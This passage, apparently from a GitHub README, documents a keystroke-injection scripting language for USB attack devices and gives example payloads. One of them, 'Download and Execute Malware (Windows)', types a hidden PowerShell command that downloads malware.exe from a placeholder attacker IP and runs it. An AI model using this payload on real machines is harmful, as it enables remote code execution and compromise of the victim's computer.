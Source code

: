 5. PRINTSCREEN:
   - Simulates pressing the `Print Screen` key.
   - Example:
     ```bash
     PRINTSCREEN
     ```

6. PAUSE:
   - Adds a short break in the script execution.
   - Example:
     ```bash
     PAUSE 500  # Pauses for 500 milliseconds
     ```

# Example Payloads

#### Opening Notepad and Typing Text (Windows)
```bash
DELAY 500
GUI r
DELAY 500
STRING notepad
ENTER
DELAY 1000
STRING This is a test!
ENTER
```
This script will open the Run dialog (`GUI r`), type "notepad", press Enter to open it, then type "This is a test!" into Notepad.

#### Download and Execute Malware (Windows)
```bash
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "Invoke-WebRequest -Uri http://<attack_ip>/malware.exe -OutFile C:\Users\Public\malware.exe"
ENTER
DELAY 2000
STRING C:\Users\Public\malware.exe
ENTER
```
This script opens PowerShell, downloads a file from a remote server, and executes it.

#### Launch Terminal and Perform Command (MacOS/Linux)
```bash
DELAY 500
COMMAND SPACE
DELAY 500
STRING terminal
ENTER
DELAY 1000
STRING sudo apt update
ENTER
```
This script opens the Terminal on macOS/Linux and runs `sudo apt update`.
